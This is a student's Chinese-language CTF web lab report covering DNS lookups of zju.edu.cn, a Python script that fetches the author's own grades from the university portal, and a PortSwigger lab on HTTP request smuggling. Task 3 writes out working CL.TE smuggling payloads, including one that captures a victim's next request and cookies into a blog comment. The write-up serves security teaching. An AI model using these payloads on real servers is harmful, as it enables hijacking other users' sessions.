

# CTF101 WEB Lab1

## 3240102120

-> 听OverJerry说如果用插件能把xzzd给骗过去的话不来也没关系，那我必须要使用autosign.js大法了（手动滑稽）  
-> 虽然我人已经来到了现场，如下图所示：  


## Task 1

1. 使用指令`nslookup www.zju.edu.cn`，得到结果如下：

```console
>nslookup www.zju.edu.cn
服务器:  dns1.zju.edu.cn
Address:  10.10.0.21

名称:    www.zju.edu.cn
Address:  10.203.4.70
```

2. 实际上我想的是直接用自己的公网服务器进行nslookup，不过既然题目是这样出的，那就代表应该用`nslookup www.zju.edu.cn 8.8.8.8`或者114.114.114.114。这里使用8.8.8.8

```console
>nslookup www.zju.edu.cn 8.8.8.8
服务器:  dns.google
Address:  8.8.8.8

非权威应答:
名称:    www.zju.edu.cn.queniusa.com
Addresses:  2001:da8:20d:40d3:3::3f8
          2001:da8:20d:40d3:3::3f7
          222.192.187.246
          222.192.187.241
          222.192.187.248
          222.192.187.244
          222.192.187.242
          222.192.187.243
          222.192.187.240
          222.192.187.245
Aliases:  www.zju.edu.cn
          www.zju.edu.cn.w.cdngslb.com
```

这个很好理解，这两种方法均不能访问，因为www.zju.edu.cn要走nginx。区别在于使用的DNS返回的ip不一样。因为校内DNS会优先解析内网ip，把www.zju.edu.cn解析成10.开头的ZJU内网ip，而校外的则正常解析www.zju.edu.cn的公网地址。这里解析的结果都应该算作www.zju.edu.cn的真实ip（毕竟没有反代），但是如果认为“真实IP”是互联网上绝大部分环境均能访问的所谓“公网IP”，那么使用校内DNS解析的“10.10.0.21”就不是“真实IP”，因为它属于浙江大学校内网的内网IP。

## Task2

> BurpSuite硬控我10分钟.jpg

加载zdbk.zju.edu.cn的成绩查询界面。流程大致是：

浏览器发送POST请求，带个人信息->zdbk返回成绩json->前端

比较关键的有以下几个：

| 接口路径 | 方法 | 参数 |
| :-- | :--: | :-- |
| /jwglxt/cxdy/xscjcx_cxXscjIndex.html?gnmkdm=N5083&layout=default&su=3240102120 | GET | gnmkdm=N5083&layout=default&su=3240102120 |
| /jwglxt/xtgl/index_cxMyCosJxpj.html?gnmkdm=N5083&su=3240102120 | POST | gnmkdm=N5083&su=3240102120 |
| /jwglxt/cxdy/xscjcx_cxXscjIndex.html?doType=query&gnmkdm=N5083&su=3240102120 | POST | ?doType=query&gnmkdm=N5083&su=3240102120 |

这里面核心是最后一次POST，即doType=query。这次请求返回了一个JSON，里面就包含了所有成绩信息。

接下来编写python。作为noob of python，只需花费114514时间就可以写出这样的一个request：

```python
import requests

url = "https://zdbk.zju.edu.cn/jwglxt/cxdy/xscjcx_cxXscjIndex.html?doType=query&gnmkdm=N5083&su=3240102120"

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36",
    "Cookie": "JSESSIONID=..."#这里省去cookie敏感信息，实际后面还有老长一坨了
}

response = requests.post(url, headers=headers)
if response.status_code == 200:
    print(response.text)  # 输出成绩信息
```

执行就可以获得一坨没有beutified的json，大概长这样：

```console
{"currentPage":1,"currentResult":0,"entityOrField":false,"items":...
```

研究一下json的键可以知道这个items下面是一个列表，列表里面元素全是字典，每个字典下面豆对应了一门课，按键给定信息，比如拿出我弃修的汇编这门课为例：

`{"cj":"弃修","completeAnswer":true,"jd":"0.0","jgpxzd":"1","kcmc":"汇编语言","listnav":"false","localeKey":"zh_CN","pageable":true,"queryModel":{"currentPage":1,"currentResult":0,"entityOrField":false,"limit":15,"offset":0,"pageNo":0,"pageSize":15,"showCount":10,"sorts":[],"totalCount":0,"totalPage":0,"totalResult":0},"rangeable":true,"row_id":"1","totalResult":"21","userModel":{"monitor":false,"roleCount":0,"roleKeys":"","roleValues":"","status":0,"usable":false},"xf":"2.0","xkkh":"(2024-2025-2)-CS1024M-0091340-1"}`

看一下有用的信息就是cj对应成绩、jd对应绩点、kcmc对应汇编语言、xf对应学分，xkkh对应课程号。

所以可以继续处理一下形成类似celechron的应用。为了避开tkinter大坑，这里选择我常用的flet写了一个小GUI：

```python
...
from flet import Page, DataTable, app, Text,  ThemeMode, MainAxisAlignment, DataColumn, DataRow, DataCell, colors, Column, border
from json import dumps

data=response.json()["item"]

def main(page: Page):
    page.title = "成绩列表"
    page.theme_mode = ThemeMode.LIGHT
    page.padding = 30
    page.scroll = "auto"
    page.horizontal_alignment = MainAxisAlignment.CENTER
    page.vertical_alignment = MainAxisAlignment.CENTER

    # 构造表头
    table = DataTable(
        columns=[
            DataColumn(Text("课程名称", weight="bold")),
            DataColumn(Text("成绩", weight="bold")),
            DataColumn(Text("绩点", weight="bold")),
            DataColumn(Text("学分", weight="bold")),
        ],
        rows=[
            DataRow(
                cells=[
                    DataCell(Text(row["kcmc"])),
                    DataCell(Text(row["cj"])),
                    DataCell(Text(row["jd"])),
                    DataCell(Text(row["xf"])),
                ]
            ) for row in data
        ],
        heading_row_color=colors.BLUE_50,
        border=border.all(1, colors.GREY_300),
        column_spacing=20,
        data_row_height=50,
    )

    page.add(Column([Text("成绩列表", size=24, weight="bold"), table], alignment=MainAxisAlignment.CENTER))

app(target=main)
```

执行后可以打开一个显示成绩的页面。其实只要用request把成绩拉到手，剩下的想怎么处理就怎么处理了。

## Task3

关于HTTP请求走私漏洞：这个漏洞利用前后端服务器解析HTTP请求时用的头不一致，构建一个差异请求包，从而使后端服务器错将一个包解析为多个包，造成一个“边界错位”，在此错位内注入走私请求，即可达到攻击效果。

实现Lab。原Lab中希望实现的是提交一个GPOST请求。根据之前的边界错位原理，如果把Content-Length设置成区块截止（0）的位置，再把Transfer-Encoding设置成chunked：

```http

POST / HTTP/1.1
Host: 0a6800a403f1413383246ed900270005.web-security-academy.net
Connection: keep-alive
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

<br>
（注意Length后默认填0，6是由Burp自动生成的）  
这样在发送之后，G就会被后端认为是下一个包的内容，等待继续输入，这个时候如果再有其他用户（受害者）发送一个POST请求，G就会出现在这个POST请求的最前面，于是就会出现GPOST方法包了。

那么根据这个原理，只需要先发送一个包，然后把G修改成全POST请求，在末尾添加一个类似Content: 的内容，接下来发送的包就会被认为是Content内容，也就是评论区的内容，这样受害者再发送包时服务器就会把包的全部内容当作Content传入评论区。主动抓取评论功能的POST包，可以得到如下内容：
<br>

```http
POST /post/comment HTTP/1.1
Host: 0a6800a403f1413383246ed900270005.web-security-academy.net
Cookie: session=khggnJVkypsHtqXcNtK5VkZS2WDKiHsp
Content-Length: 125
Cache-Control: max-age=0
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Origin: https://0a6800a403f1413383246ed900270005.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6800a403f1413383246ed900270005.web-security-academy.net/post?postId=8
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

csrf=8hUFUgINQOBiAL481JoFghTWLBkbPx7O&postId=8&comment=Web+yidaotiyebuhuizuo&name=AlabTNT&email=alabtnt%40zju.edu.cn&website=
```

那么很显然这里有一个comment=，所以只需要构建这样一个包发送即可：

```http
POST / HTTP/1.1
Host: 0a6800a403f1413383246ed900270005.web-security-academy.net
Connection: keep-alive
Content-Length: 1126
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0a6800a403f1413383246ed900270005.web-security-academy.net
Cookie: session=2NQumaO6W33x2slHoTvBhKRJzgemreFX
Content-Length: 300
Cache-Control: max-age=0
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Origin: https://0a6800a403f1413383246ed900270005.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6800a403f1413383246ed900270005.web-security-academy.net/post?postId=8
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

csrf=Jdx2VKWE6aJDFeX9HmegZS2DazgLtc5I&postId=8&name=1111&email=222%40google.com&website=&comment=
```

接下来再有人向网站发送请求，就会在postID=8的post下面出现一条评论，评论内容就是这个人刚刚提交过的request。对应受害者的界面也会直接变成评论已提交成功。理论上可以搭配其他漏洞再重定向回正常界面，但是技术比较复杂所以暂时还没有研究。
